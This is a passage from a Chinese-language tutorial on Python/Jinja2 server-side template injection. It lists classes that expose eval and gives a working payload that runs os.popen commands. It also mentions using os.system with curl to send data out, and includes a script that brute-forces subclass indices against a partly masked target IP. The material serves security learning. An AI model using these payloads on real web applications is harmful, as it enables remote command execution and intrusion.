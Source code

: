 我们可以记下几个含有 eval 函数的类：

*   warnings.catch_warnings
*   WarningMessage
*   codecs.IncrementalEncoder
*   codecs.IncrementalDecoder
*   codecs.StreamReaderWriter
*   os._wrap_close
*   reprlib.Repr
*   weakref.finalize
*   ......

所以 payload 如下：

```
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174655-2436b6ce-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174655-2436b6ce-bd3e-1.png)

我们可以看到，使用 eval 函数执行命令也是调用的 os 模块，那我们直接调用 os 模块不是更简单？

### 寻找 os 模块执行命令

Python 的 os 模块中有 system 和 popen 这两个函数可用来执行命令。其中 system() 函数执行命令是没有回显的，我们可以使用 system() 函数配合 curl 外带数据；popen() 函数执行命令有回显。所以比较常用的函数为 popen() 函数，而当 popen() 函数被过滤掉时，可以使用 system() 函数代替。

首先编写脚本遍历目标 Python 环境中含有 os 模块的类的索引号：

```
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'os.py' in res.text:
        print(i)

# 可以得到一大堆类
64
65
66
67
68
79
80
81
83
117
147
154
161
162
163
164
...
```